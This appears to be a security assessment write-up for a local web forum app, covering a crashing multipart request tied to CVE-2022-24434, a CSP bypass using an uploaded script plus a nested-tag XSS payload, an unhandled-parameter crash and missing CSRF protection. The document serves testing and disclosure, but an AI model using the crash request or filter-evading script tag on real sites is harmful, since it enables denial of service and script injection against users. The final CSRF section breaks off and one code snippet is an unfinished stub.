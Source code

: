 # ReDoS
    
```javascript
fetch('/upload', { 
    method: 'POST', 
    headers: { 
        ['content-type']: 'multipart/form-data;boundary=----WebKitFormBoundaryoo6vortfDzBsDiro', ['content-length']: '145', host: '127.0.0.1:3000', connection: 'keep-alive', }, body: '------WebKitFormBoundaryoo6vortfDzBsDiro\r\n Content-Disposition: form-data; name="bildbeschreibung"\r\n\r\n\r\n------WebKitFormBoundaryoo6vortfDzBsDiro--' });
```
This request crashes the web server due to [CVE-2022-24434](https://www.cve.org/CVERecord?id=CVE-2022-24434)

We can mitigate this bug by using a different parser.

With this fix implemented, the server does not crash anymore. It instead returns a 500 error, which is not ideal, but better than crashing the server.


```javascript
async function re(iterations){
    for(let i = 0; i < iterations; i++){
        console.time("")
    }


}

```



# XSS

The website uses a CSP (Content Security Policy) which allows the browser to load scripts only from certain sources. 
In theory, this can help prevent XSS attacks. However, even though the CSP is configured in a way that makes it impossible to load scripts from external sources, or even inline in the html, we can still execute code.
By uploading a javascript file as our profile picture, we can create a resource on the website that can be loaded by the browser.

In order to actually run the code then, we need to create a script tag that loads our script from the server. This can be done by creating a post with the following content:

```html
<scr<scriptipt src="http://localhost:3000/images/profileImages/username"></script>
```


# Found a random crash

The server crashes if you send a POST request to the /createThread endpoint that does not have a ?topic query parameter.

# CSRF

The website does not have any CSRF protection for its forms. We can easily create a thread on a user's behalf by having them press a button on a website we control.

```html